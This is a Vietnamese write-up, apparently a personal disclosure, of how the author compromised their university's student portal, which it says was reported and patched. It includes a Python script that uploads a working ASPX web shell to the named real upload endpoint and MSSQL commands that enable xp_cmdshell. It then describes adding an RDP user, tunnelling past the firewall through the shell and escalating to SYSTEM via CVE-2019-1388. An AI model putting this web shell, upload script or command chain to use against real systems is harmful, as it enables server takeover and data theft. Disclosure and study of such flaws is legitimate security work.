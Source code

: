 > Lỗ hổng đã report và được vá

> Do tình trạng dịch đang bùng phát nên sinh viên học sinh toàn quốc được nghỉ học, mình có nhiều thời gian rảnh rỗi để vọc này kia, thế là quyết định lấy con FAP của trường ra thông thử

<img src="fap.fpt.png">

* Đây là giao diện của website, sau khi login thì mình F12 view-source xem có gì hay ho không thì phát hiện ra 1 url 

<img src="view-source.fpt.png">

`/SRS/AddQA.aspx`

* Truy cập vào là một giao diện ý kiến của mình gửi cho nhà trường và có form upload

<img src="form-upload.fpt.png">

* Do ở đây mình không biết chính xác subject code các kiểu nên intercept nó lại và đẩy vào burpsuite để bắt request response của nó xem như thế nào

<img src="burpsuite.fpt.png">

* Thì phát hiện ra một số param và endpoint để tấn công

  * Thứ nhất:
  
 ```
Content-Type: multipart/form-data;
 boundary=---------------------------324402796424983 -----------------------------324402796424983 
Content-Disposition: form-data; name=“ctl00mainContentmainContentfileUpLoad”; filename=“1.aspx”
aaa-----------------------------324402796424983 Content-Disposition: form-data; name=“ctl00mainContentmainContentbtnUpLoad”

Send Question
```

* Có params và content-type để gửi file
  
  * Thứ 2:
  
  <img src="params&content-type.fpt.png">
  
  * Request mình upload file lên sẽ được xử lý ở upload.aspx và lưu trong /temp/MOOC/‘tên file’
Ý tưởng là sẽ dùng params có sẵn ở request để post file lên server thông qua upload.aspx, payload python đơn giản để test thử con shell:
```py
import requests

url = "http://fap.fpt.edu.vn/SRS/upload.aspx"
payload = """<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Sub RunCmd(Src As Object, E As EventArgs)
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments=xcmd.text
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  myProcess.Close()
  mystring=replace(mystring,"<","&lt;")
  mystring=replace(mystring,">","&gt;")
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub
</script>

<html>
<body>
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\\windows\\system32\\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>"""
files = [('ctl00$mainContent$fileUpLoad', ('1.aspx', payload, 'image/jpeg')), ('ctl00$mainContent$btnUpLoad', ('1.aspx', 'Send Question'))]


headers = {
  'Host': 'fap.fpt.edu.vn',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0 Waterfox/56.3',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Connection': 'close',
  'Upgrade-Insecure-Requests': '1',
  'Cache-Control': 'max-age=0',
  'Content-Length': '300'
}

response = requests.post(url, headers=headers, files=files)

print(response.text)
```

* Sau khi thực thi payload kết quả trả về:

<img src="payload.fpt.png">
  
* Url trả về cho thấy mình đã post được con shell lên server tiếp theo là access con shell qua url trả về

<img src="shell.fpt.png">

<img src="web.config.fpt.png">

* Sau khi dùng string connect thành công, ở đây là user SA thì có khả năng đủ quyền để enable hàm xp_cmdshell trên mssql, sau đó gọi đến command line và thực thi lệnh

```
- EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

<img src="rce.fpt.png">

* Vậy là đã RCE thành công, tiếp tục là add user vô rdp

<img src="add-user.fpt.png">

* Vậy là đã tạo được user trên server. Bước tiếp theo khá là quan trọng vì port rdp được bảo vệ bởi firewall, mình không thể connect từ ngoài vào được, nên mình sẽ sử dụng kĩ thuật tunnel

* Cơ chế hoạt động của Tunna như sau:

<img src="tunna-rdp-fpt.png">

* Hiểu nôm na là hacker sẽ thông qua 1 con webshell đã được gắn trên server, vượt qua firewall, và đem port trong local ra ngoài để mạng mình có thể connect tới,

* Sau khi Tunnel thành công mình đã connect được rdp qua tài khoản và mật khẩu vừa tạo

<img src="connect-rdp.fpt.png">

* Chưa dừng ở đây, do bản server win dùng khá củ nên mình thử sử dụng exploit leo quyền CVE-2019-1388, lỗi này leo quyền logic dựa trên Windows Certificate Dialog

<img src="system.fpt.png"> 

> Kết quả là đã leo lên quyền system thành công!


